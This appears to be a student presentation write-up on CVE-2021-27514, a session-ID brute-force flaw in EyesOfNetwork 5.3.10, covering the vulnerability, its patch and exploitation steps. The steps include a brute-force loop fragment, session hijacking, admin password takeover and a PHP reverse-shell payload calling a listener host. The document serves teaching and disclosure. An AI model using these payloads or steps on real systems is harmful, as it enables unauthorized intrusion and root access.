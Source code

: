 # (CVE-2021-27514) **Authentication bypass with SessionID brute forcing**

![image](https://user-images.githubusercontent.com/71412992/112759163-c87b9580-8fbf-11eb-9c2b-63b40c097450.png)


## What software contains the vulnerability?
The vulnerability is found in version 5.3.10 of a program called EyesofNetwork.
## What is the vulnerability?
The program allows the sessionID to be brute-forced without an eventual timeout or cooldown to prevent excessive authentication attempts. To make brute-forcing even easier, the SessionID is ALWAYS between 8-10 numerical digits in length.

## What is EyesofNetwork?
Eyes of Network is a program designed to assist in the management of an information system. The software is designed to make use of the IT Infrastructure library process and pair it with a GUI in order to allow businesses to manage their networks, applications, commerce, data, updates, and monitor their business statistics.
## When was the exploit discovered?
**February 21st 2021**
## When was the exploit patched?
**March 12th 2021**
## How was it fixed?
The patch changed the table structure and changed the sessionID from 8-10 numerical digits to a higher number of alphanumeric char values.

![image](https://user-images.githubusercontent.com/71412992/112759186-e3e6a080-8fbf-11eb-9f1d-aadae4fcaa82.png)


## What is Brute-forcing?    
-   Brute forcing is when an attacker uses some sort of semi or fully automated program in order to try several entries until the desired value for the situation at hand is found. The method is most commonly used to obtain a password or in our case a sessionID

- Brute forcing can work in 3 main ways:
	- The program can try random values within parameters
	
	- The program can try to check values from a word list like what we all did in this very class if you used a brute force style program for assignment 4 like john the ripper
	- Or lastly or what we will demonstrate today they can follow a continuous pattern or increment value

## What is a sessionID?
-   A sessionID is a unique identifier assigned to a user upon login and represents the open session. The SessionID essentially tells the program that the system logged in is being used by the user associated with the ID.
    
-   The sessionId which was mentioned thought the presentation is the main point of concern for this vulnerability as it was too short with too low of a complexity
    
-   It is commonly accepted that most session IDs should be a minimum of 128 bits in length in order to combat the aforementioned brute force attacks.
#  How the Exploit Works
The Eyes of Network has a vulnerability in version 5.3.10 that has a session ID between 8 and 10 digits. This is done using a brute force method, meaning that you would start searching using session ID 10000000 and iterate up to 9999999999. This can be seen in this code: 

```python
    if rep.content.find(bytes) !=-1:
        a = int(a) + 1
        if int(a) == 99999999999:
            print("No Session_id available ... ")
            break
    else:
        print ("Yepa !")
        print("")
        print('\x1b[6;30;42m' + '[+] session_id FOUND ! '  + a + '\x1b[0m')
        print("")
        break
```
Where rep.content is the response from a GET request using the current iteration of the session ID. From here there are many different exploits available and we ran through the following ones to test these vulnerabilities: 

## Eyes of Network Access without Credentials 
Logging in using the obtained session ID is fairly straight forward. The following image is using the developer tools built into google chrome, you can navigate to the application tab and click on cookies:
![image](https://user-images.githubusercontent.com/71412992/112726764-838b2c80-8ef5-11eb-84cb-9cee09076cd6.png)

You will need to fill in all of these fields and put in the session ID that was obtained. The other fields are filled out based on the type of user the session ID belongs too. This would require trial and error or some inside knowledge of how Eyes of Network user information. 

Once the fields are filled out properly, you refresh the cookies and then the page and you will now be on the main dashboard page of the site with the same access as the user whos session ID you used. 

[[Using the Session ID Demo from Presentation]](https://drive.google.com/file/d/1A_G3z7hrUq75NR4OheF2wnromBJ7sS3C/view?usp=sharing)

## Privilege Escalation 
This exploit involves allowing a restricted user to gain access to an admin account. Once a user has logged in, (This can be done using the session ID or with real credentials if the user has access to the site) this user will navigate to the profile tab on the eyes of network portal. Once here they have to option to change their password. The put in and password they would like. 

Next using a proxy interrupter, they interrupt the POST request to change the password:

![image](https://user-images.githubusercontent.com/71412992/112727172-8424c280-8ef7-11eb-8abf-9956d3f645e6.png)

Using the Admin session ID, user_name,user_id, group_id the user is able to change the password of the admin immediately and now has access to that account through regular log in. 

[[Password Changing Demo from Presentation]](https://drive.google.com/file/d/1GRRtUvGUUZJ2lrjAFSqca7R0ionQawjJ/view?usp=sharing)

## Root Access to Eyes of Network OS (CentOS)
The last vulnerability that we explored with this exploit was gaining root access on the Eyes of Network operating system. This vulnerability could result in massive loss of data and destruction.  The following code will POST a .php file disguised as a .XML file to a directory on system. A GET request is then called on that file which will cause it to execute: 

```python
postreq=requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data, verify=False)
rep2=postreq

...

requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies, verify=False)

```
The php file will give a specified IP and Port interactive rights to the OS: 

```
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/192.168.0.11/9999 0>&1'");
```
Here we can see that the file has been successfully uploaded 

![image](https://user-images.githubusercontent.com/71412992/112731199-3fefed00-8f0c-11eb-8485-9e4b1914000c.png)

During the time the code is running you will listen on the port specified in the code (on the machine that with the specified IP). Once the GET request is run you will be logged in as a user. 
Moving to the /tmp directory you are then able to do a os.execute in order to escape interpreters and gain root access. This can all be seen here: 
![image](https://user-images.githubusercontent.com/71412992/112731497-f7393380-8f0d-11eb-932d-c97a413d1e6a.png)

It should be noted that the ITSM module needs to be installed on Eyes of Network for this portion of the explot to work as this is what allows XML upload. 

[[Root access Demo from Presentation]](https://drive.google.com/file/d/1GBS82gYbQtkcr-ZRlcMSsL4OxX7ymtoB/view?usp=sharing)

## References 

[1] Eyes of Network website https://www.eyesofnetwork.com/en

[2] Exploit Guide and walkthrough  https://ariane.agency/site/index.php/2021/02/23/quand-tu-trouves-une-0day-pendant-un-audit-d/

[3] Explot repository https://github.com/ArianeBlow/exploit-eyesofnetwork5.3.10/blob/main/PoC-BruteForceID-arbitraty-file-upload-RCE-PrivEsc.py

[4] Eyes of Network Community Discussion https://github.com/EyesOfNetworkCommunity/eonweb/issues/87

[5] Eyes of Network Eonweb repository for ITSM https://github.com/EyesOfNetworkCommunity/eonweb

[6] Linux preivileges https://guif.re/linuxeop

[7] Exploit Fix https://github.com/EyesOfNetworkCommunity/eonweb/commit/6d1be13ba36fedfc8cdcbe9c30e99d4e0ca7db1b?fbclid=IwAR0X3qOSDuq1Ke_uAHDjKriPMAfSDWhi4IU6QZWKTuo-Zj4R1sV_TG7hPTo#

[8] NIST Vulnerbility https://nvd.nist.gov/vuln/detail/CVE-2021-27514

[9] SessionID Length https://owasp.org/www-community/vulnerabilities/Insufficient_Session-ID_Length#:~:text=Description,brute%2Dforce%20session%20guessing%20attacks.


